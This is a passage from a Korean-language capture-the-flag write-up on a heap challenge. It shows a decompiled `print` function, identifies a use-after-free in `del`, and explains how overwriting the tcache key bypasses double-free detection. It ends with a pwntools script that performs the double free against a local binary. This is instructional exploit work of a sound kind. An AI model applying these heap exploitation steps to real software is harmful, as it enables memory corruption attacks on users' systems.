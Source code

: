예측대로 `free`가 호출되며 특정 인덱스의 `Node`를 해제하는 것을 볼 수 있습니다! 당연히  `node[a1]`이 NULL이 아니어야 하고 `inuse` 또한 1이어야 `free`가 호출됩니다. 

## print

```c
int print()
{
  int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; i <= 31; ++i )
  {
    if ( node[i] && strlen(node[i]->buf) > 5 )
      printf("->%s\n", node[i]->buf);
  }
  return puts("----");
}
```

`node[i]` 가 NULL이 아니고 데이터인 문자열의 길이가 5보다 크면 출력해주는 것을 알 수 있습니다.

# Vulnerability

직전에 살펴본 `del`함수에서는  `free`한 후 `node[a1]`을 NULL로 초기화하고 있지 않습니다. 이러면 UAF(Use-After-Free) 취약점이 발생할 수도 있겠네요! 다시 `add`를 살펴보면 `del`로 해제한 `Node`에 데이터를 쓰는 것이 가능합니다! `add`에서 할당된 청크의 크기는 0x20일 것이고 이는 tcache에 들어가는 크기입니다. 따라서 tcache에 들어간 해제된 청크의 `tcache_entry.key`를 덮어쓰는 것으로 double free 탐지를 우회할 수 있고 tcache dup까지 가능합니다! 또한 `print`에서 `inuse`인지는 확인하지 않기 때문에 `next`에 저장된 힙 포인터까지 유출할 수 있겠네요!

# Exploit

## Double Free & Tcache Dup

그럼 double free와 tcache dup이 실제로 가능한지 확인해볼 차례입니다.

```python
from pwn import *

context.log_level = 'debug'

p = process("./chal")

cmd = lambda x: p.sendlineafter(b'cmd:', str(x).encode())

def add(idx, data):
    cmd(1)
    p.sendline(str(idx).encode())
    p.sendline(data)

def delete(idx):
    cmd(2)
    p.sendline(str(idx).encode())

add(0, "double free")

delete(0)

add(0, p64(0) * 2) #overwrite tcache_entry.next & key

delete(0)#double free

gdb.attach(p)

p.interactive()
```
